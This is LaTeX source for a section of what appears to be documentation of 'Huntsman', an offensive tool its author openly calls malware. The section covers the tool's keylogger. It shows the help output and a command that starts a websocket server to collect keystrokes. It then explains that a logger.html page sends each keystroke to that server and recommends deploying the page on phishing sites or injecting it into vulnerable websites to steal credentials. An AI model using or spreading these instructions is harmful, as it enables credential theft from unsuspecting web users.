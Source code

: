 \documentclass[12pt]{article}
\begin{document}
\subsection{Keylogger}

A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.\\

\begin{verbatim}
huntsman keylogger --help

This will run a keylogger server (a websocket) which also renders
	a HTML (with JS) client that captures the keystrokes and send them to
	this server, so we can know whatever the user is typing on that webpage

Usage:
  huntsman keylogger [flags]

Flags:
  -h, --help                   help for keylogger
  -l, --listener-port string
                               	The port at which the listener server should run on this machine
                               	 (default "8192")
  -w, --ws-addr string         address of the websocket server (default "localhost:8192")
\end{verbatim}


\verb|huntsman keylogger -w localhost:8192 -l 8192|

Using the above command you can run the keylogger, which will log all the inputs made to the HTML file named \textbf{logger.html} in the Huntsman github repository. The thing special about this html file is that it makes a websocket connection to the Huntsman keylogger websocket server and sends each keystoke to the server. In practical scenarios you need to have either a custom website which has this feature built into it (typically the phising websites) or find vulnerability in the website to inject this websocket connection to our huntsman keylogger server.

\href{https://youtu.be/BoPICq1MVhA}{This video} is the demonstration for using huntsman as a keylogger. 

\section{Conclusion}
The goal of Huntsman is to be an efficient piece of software (you can call it malware instead) that can transform into the required tool for hunting according to the need. Since it is open source, anyone can contribute to it for making it the ultimate tool for offensive security. \\
\textit{NOTE: This software was written for educational purpose, the author can not be held liable for any mishap that occurs out of it's direct or indirect usage}
\end{document}
